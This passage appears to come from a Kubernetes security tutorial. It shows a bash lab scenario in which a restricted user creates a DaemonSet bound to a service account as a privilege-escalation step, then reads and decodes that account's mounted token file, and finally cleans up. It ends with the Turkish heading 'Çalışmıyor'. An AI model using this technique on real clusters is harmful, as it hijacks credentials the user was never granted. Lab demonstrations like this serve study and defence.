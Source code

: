 ```bash
name: alpine
template:
metadata:
labels:
name: alpine
spec:
automountServiceAccountToken: false
hostNetwork: true
containers:
- name: alpine
image: alpine
command: ['/bin/sh']
args: ['-c', 'sleep 100']' | kubectl apply -f -

# Check user User can get pods in namespace default
kubectl --as Test -n default get daemonsets

# Create a daemonset as user Test with the SA test-sa (privesc step)
echo "apiVersion: apps/v1
kind: DaemonSet
metadata:
name: alpine
namespace: default
spec:
selector:
matchLabels:
name: alpine
template:
metadata:
labels:
name: alpine
spec:
serviceAccountName: test-sa
automountServiceAccountToken: true
hostNetwork: true
containers:
- name: alpine
image: alpine
command: ['/bin/sh']
args: ['-c', 'sleep 100000']"| kubectl --as Test apply -f -

# Connect to the pod created an confirm the attached SA token belongs to test-sa
kubectl exec -ti -n default daemonset.apps/alpine -- cat /var/run/secrets/kubernetes.io/serviceaccount/token | cut -d "." -f2 | base64 -d

# Clean the scenario
kubectl delete daemonset alpine
kubectl delete clusterrolebinding test-crb
kubectl delete clusterrole test-cr
kubectl delete rolebinding test-rb
kubectl delete role test-r
kubectl delete serviceaccount test-sa
```
## Çalışmıyor
